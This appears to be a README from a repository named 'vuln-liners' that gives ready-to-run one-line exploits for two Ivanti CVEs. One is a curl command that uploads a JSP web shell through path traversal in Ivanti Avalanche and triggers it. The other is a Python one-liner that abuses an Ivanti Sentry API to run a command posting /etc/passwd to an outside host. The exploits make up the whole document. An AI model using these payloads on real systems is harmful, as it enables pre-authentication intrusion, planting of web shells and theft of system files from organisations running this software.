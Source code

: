 # vuln-liners
One line vulnerabilities

## CVE-2023-32563 (Ivanti Avalanche Pre-auth)
`curl -v http://x.x.x.x:1900/Servlet/Skins -F guid=../../../Web/webapps/ROOT -F "file=@-;filename=x.jsp" <<<'<%Runtime.getRuntime().exec(request.getParameter("c"));%>' -: -k https://x.x.x.x:8443/x.jsp -d c=mspaint.exe`

## CVE-2023-38035 (Ivanti Sentry API Authentication Bypass)
`python3 -c "from pyhessian.client import HessianProxy as H; H('https://TARGET-DOMAIN:8443/mics/services/MICSLogService').uploadFileUsingFileInput({'command': 'curl -X POST -d @/etc/passwd https://x.x.x.x', 'isRoot': True}, None)"`
